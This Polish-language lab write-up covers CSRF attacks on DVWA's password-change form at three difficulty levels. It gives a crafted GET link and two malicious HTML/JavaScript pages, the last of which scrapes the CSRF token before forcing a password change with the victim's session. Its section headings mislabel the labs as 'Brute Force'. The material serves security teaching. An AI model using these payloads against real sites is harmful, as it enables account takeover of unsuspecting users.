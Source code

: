 # CSRF - Cross Site Request Forgering
## Opis techniki
<blockquote>Atak CSRF w tym przypadku dotyczył będzie formularza zmiany hasła, który nie posiada dodatkowych zabezpieczeń, takich jak captcha czy podanie starego hasła. W takiej sytuacji, atakujący może wykorzystać te braki w zabezpieczeniach, aby zmusić użytkowników do niechcianych zmian hasła.

W typowym scenariuszu ataku CSRF na formularz zmiany hasła, atakujący przygotowuje specjalnie spreparowaną stronę, która zawiera ukryte żądanie zmiany hasła. Może to być zwykły link, który wydaje się niewinny lub atrakcyjny dla użytkownika. Kiedy użytkownik kliknie w ten link, żądanie zmiany hasła zostaje automatycznie wykonane w tle, wykorzystując uwierzytelnienie użytkownika na stronie.

W konsekwencji, jeśli użytkownik jest zalogowany na swoje konto na stronie, atakujący może dowolnie zmieniać hasło w imieniu ofiary, bez jej wiedzy i zgody. Użytkownik nie jest świadomy tego, że jego hasło zostało zmienione, a atakujący uzyskuje pełną kontrolę nad kontem.

Aby chronić się przed atakami CSRF w przypadku formularzy zmiany hasła, ważne jest wprowadzenie odpowiednich zabezpieczeń. Przede wszystkim, aplikacja internetowa powinna stosować mechanizmy weryfikacji, takie jak token CSRF, który jest generowany dla każdego żądania i musi być przesłany wraz z żądaniem zmiany hasła. Serwer sprawdza, czy token jest prawidłowy, aby zweryfikować, czy żądanie pochodzi od prawidłowego źródła.

To jednak może nie wystarczyć, co udowodni laboratorium wysokim poziomie trudności. Zaleca się więc stosowanie dodatkowych warunków, takich jak potwierdzenie starego hasła i/lub rozwiązanie captchy, aby uniemożliwić zmianę hasła bez rzeczywistej intencji użytkownika.</blockquote>

## DVWA labs

- [DVWA CSRF #1 - Low](#dvwa-csrf-1---low)

- [DVWA CSRF #2 - Medium](#dvwa-csrf-2---medium)

- [DVWA CSRF #3 - High](#dvwa-csrf-3---high)


<br/>

## DVWA Brute Force #1 - Low
Na niskim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Dane do zmiany hasła są przesyłane w parametrach GET

Powoduje to, że jedyne co musi zrobić atakujący, to przekonać ofiarę, by będąc zalogowana w docelowej web aplikacji - kliknęła w specjalnie przygotowany link.

#### Przykładowy link powodujący automatyczną zmianę hasła
<http://10.10.14.17/vulnerabilities/csrf/?password_new=low&password_conf=low&Change=Change>

#### Efekt kliknięcia w link:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_015237284.png "Po kliknięciu w link wysłane żądanie powoduje automatyczną zmianę hasła")



<br/>

<br/>
<br/>

## DVWA Brute Force #2 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Dane do zmiany hasła są przesyłane w parametrach GET
* CORS

![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_013102526.png "Plik ze złośliwą stroną został wgrany na serwer.")

#### Złośliwa strona `html` 

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Medium</title>
</head>
<body>
    <script>
        var pass = 'medium';
        var theUrl = 'http://10.10.14.17/vulnerabilities/csrf/?password_new=' + pass + '&password_conf=' + pass + '&Change=Change';
        fetch(theUrl, {
            method: 'GET',
            credentials: 'include'
        }).then(function(response) {
            return response.text();
        }).then(function(text) {
            var parser = new DOMParser();
            var responseDoc = parser.parseFromString(text, "text/html");
            var preElements = responseDoc.getElementsByTagName('pre');
            if (preElements.length > 0) {
                var preText = preElements[0].textContent;
                console.log(preText);
            } else {
                console.log("No <pre> elements found in the response.");
            }
        });
    </script>
</body>
</html>
```

#### Efekt wejścia na stronę:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_013039891.png "Po wejściu na złośliwą stronę skrypt JS korzystając z zalogowanej sesji użytkownika - dokonuje zmiany hasła")



<br/>

<br/>
<br/>

## DVWA Brute Force #3 - High
Na wysokim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Dane do zmiany hasła są przesyłane w parametrach GET
* CORS
* Każde żądanie musi zawierać ważny token CSRF

![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_003649344.png "Plik ze złośliwą stroną został wgrany na serwer.")

#### Złośliwa strona `html` 

```html
<!DOCTYPE html>
<html>
<head>
    <title>HTTP File</title>
</head>
<body>
    <script>
        var theUrl = 'http://10.10.14.17/vulnerabilities/csrf/';
        var pass = 'high';

        fetch(theUrl, {
            method: 'GET',
            credentials: 'include'
        }).then(function(response) {
            return response.text();
        }).then(function(text) {
            var parser = new DOMParser();
            var doc = parser.parseFromString(text, "text/html");
            var token = doc.getElementsByName('user_token')[0].value;
            console.log("Retrieved CSRF token: "+token);
            new_url = theUrl + '?password_new=' + pass + '&password_conf=' + pass + '&Change=Change&user_token=' + token + '&Change=Change';
            fetch(new_url, {
                method: 'GET',
                credentials: 'include'
            }).then(function(response) {
                return response.text();
            }).then(function(text) {
                var responseDoc = parser.parseFromString(text, "text/html");
                var preElements = responseDoc.getElementsByTagName('pre');
                if (preElements.length > 0) {
                    var preText = preElements[0].textContent;
                    console.log(preText);
                } else {
                    console.log("No <pre> elements found in the response.");
                }
            });
        });
    </script>
</body>
</html>
```

#### Efekt wejścia na stronę:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_005251539.png "Po wejściu na złośliwą stronę skrypt JS uzyskuje najpierw token CSRF, a później - korzystając z zalogowanej sesji użytkownika - dokonuje zmiany hasła")


<br/>
